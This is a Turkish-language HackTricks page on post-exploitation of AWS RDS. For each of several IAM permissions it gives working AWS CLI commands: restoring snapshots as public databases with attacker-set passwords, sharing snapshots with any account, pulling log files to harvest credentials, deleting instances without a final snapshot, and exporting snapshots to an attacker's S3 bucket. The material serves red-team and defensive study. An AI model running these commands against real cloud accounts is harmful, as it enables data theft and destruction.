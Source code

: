 # AWS - RDS Post Exploitation

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## RDS

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Eğer saldırgan yeterli izinlere sahipse, bir **DB'yi herkese açık hale** getirerek, DB'nin bir anlık görüntüsünü oluşturabilir ve ardından anlık görüntüden herkese açık bir DB oluşturabilir.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Bu izinlere sahip bir saldırgan, bir DB'nin **anlık görüntüsünü oluşturabilir** ve bunu **herkese açık** hale getirebilir. Daha sonra, kendi hesabında bu anlık görüntüden bir DB oluşturabilir.

Eğer saldırganın **`rds:CreateDBSnapshot` izni yoksa**, yine de **başkaları** tarafından oluşturulan anlık görüntüleri **herkese açık** hale getirebilir.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` iznine sahip bir saldırgan, **bir RDS instance'ının log dosyalarının bölümlerini indirebilir**. Eğer hassas veriler veya erişim kimlik bilgileri yanlışlıkla loglanmışsa, saldırgan bu bilgileri ayrıcalıklarını yükseltmek veya yetkisiz işlemler gerçekleştirmek için kullanabilir.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Potansiyel Etki**: Sızdırılmış kimlik bilgilerini kullanarak hassas bilgilere erişim veya yetkisiz işlemler.

### `rds:DeleteDBInstance`

Bu izinlere sahip bir saldırgan mevcut RDS instance'larını **DoS yapabilir**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Olası etki**: Mevcut RDS instance'larının silinmesi ve potansiyel veri kaybı.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Test Et
{% endhint %}

Bu izne sahip bir saldırgan, **bir RDS instance anlık görüntüsünü bir S3 bucket'a aktarabilir**. Saldırgan, hedef S3 bucket'ı kontrol ediyorsa, aktarılan anlık görüntü içindeki hassas verilere potansiyel olarak erişebilir.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Potansiyel etki**: Dışa aktarılan anlık görüntüdeki hassas verilere erişim.

{% hint style="success" %}
AWS Hacking öğren & pratik yap:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğren & pratik yap: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin**.
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek hacking ipuçlarını paylaşın.

</details>
{% endhint %}
